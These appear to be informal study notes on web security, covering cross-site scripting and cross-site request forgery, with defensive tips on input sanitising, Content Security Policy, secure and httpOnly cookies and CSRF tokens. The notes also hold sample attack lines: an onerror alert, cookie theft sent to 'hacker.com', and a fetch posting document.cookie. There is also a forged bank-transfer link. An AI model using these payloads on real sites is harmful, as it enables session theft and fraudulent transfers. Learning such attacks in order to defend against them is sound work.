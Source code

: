 XSS - cross site scripting

<img src='/' onerror='alert(1);'>

window.location = 'hacker.com?cookie=' + document.cookie

need sanitize

CSRF - cross site request fortualy

ex site dublicator like google or others...
<a href="http://netbank.com/transfer.do?acct=Attacker&amount;=$100">Read more!</a>

fetch('https://httpbin.org/post', {method: 'POST' body:document.cookie})

need HEADERS

```js
res.cookie('session', '1', { httpOnly: true });
res.cookie('session', '1', { secure: true });
res.set({
  'Content-Security-Policy': "script-src 'self' 'https://apis.google.com/'",
});
res.send('string');
```

---

Sanitize input
No eval()
No document.write()
Content Security Policy
Secure + HTTPOnly Cookies

(npm i ) csurf
